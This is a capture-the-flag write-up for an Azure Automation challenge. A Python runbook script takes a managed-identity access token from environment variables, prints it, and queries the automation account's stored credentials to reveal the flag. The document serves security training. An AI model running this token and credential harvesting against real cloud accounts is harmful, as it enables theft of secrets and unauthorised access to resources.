


# Automated the secrets

## Challenge



## Solution

Log into the Portal at https://portal.azure.com.

Create a new runbook in the `abb6ea23d0f715-flag3-aa` Automation Account. Use script, and run it via Test pane. We're not allowed to start the runbook, but we're allowed to edit and test-run the script.

```python
#!/usr/bin/env python3 
import os 
import requests  
import automationassets
# printing environment variables 
endPoint = os.getenv('IDENTITY_ENDPOINT')+"?resource=https://management.azure.com/" 
identityHeader = os.getenv('IDENTITY_HEADER') 
payload={} 
headers = { 
  'X-IDENTITY-HEADER': identityHeader,
  'Metadata': 'True' 
} 
response = requests.request("GET", endPoint, headers=headers, data=payload) 
token = response.json()["access_token"] 
print(token)

headers = {"Authorization": f"Bearer {token}"}
url = "https://management.azure.com/subscriptions/ad116f11-921a-43ad-8b80-5b8af92e0833/resourceGroups/aa-rg/providers/Microsoft.Automation/automationAccounts/abb6ea23d0f715-flag3-aa/credentials?api-version=2019-06-01"

r = requests.get(url, headers=headers)
print(r)
print(r.content)

flag = "theflagishere"

ff = automationassets.get_automation_credential(flag)
print(ff)
```



The flag is shown in the response from the second request.

```
EPT{b31083e6-f896-443a-a0e9-2ec884ce3095}
```